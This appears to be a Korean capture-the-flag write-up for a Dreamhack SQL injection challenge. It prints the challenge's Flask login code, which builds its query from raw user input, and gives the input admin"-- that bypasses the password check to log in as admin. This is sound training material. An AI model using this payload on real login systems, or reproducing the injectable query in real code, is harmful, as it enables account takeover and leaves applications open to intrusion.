 ```yaml
---
title: simple_sqli
author: sally
date: 2024-01-17 23:24:00 +0800
categories: [Dreamhack, Web]
tags: [web, sql injection, level1]
img_path: /assets/img/posts/20240117/
---
```


## 문제
![login](simple_sqli/login.jpg){: .w-75 .shadow .rounded-10 w='1212' h='668' }

## 풀이 방법
**app.py**
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

문제 파일 코드를 간단히 설명하면 다음과 같다. 

1. **sqlite3 db** 사용
2. users table 생성 (userid, userpassword)
3. ("guest", "guest"), ("admin", random value) 를 삽입
4. **admin** 계정으로 로그인하면 **FLAG** 값을 출력

admin으로 로그인하면 플래그를 획득할 수 있다는 것을 알 수 있다. 

코드의 로그인 확인 쿼리는 다음과 같다.
```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

[sqlite의 주석](https://www.sqlite.org/lang_comment.html)은 "--"이기 때문에 userid를 `admin"--`으로 입력하면 쿼리문이 다음과 같이 될 것 이다. 
```sql
select * from users where userid="admin"--" and userpassword="123"
```

패스워드는 아무거나 입력해도, 성공적으로 플래그를 획득 할 수 있다. 

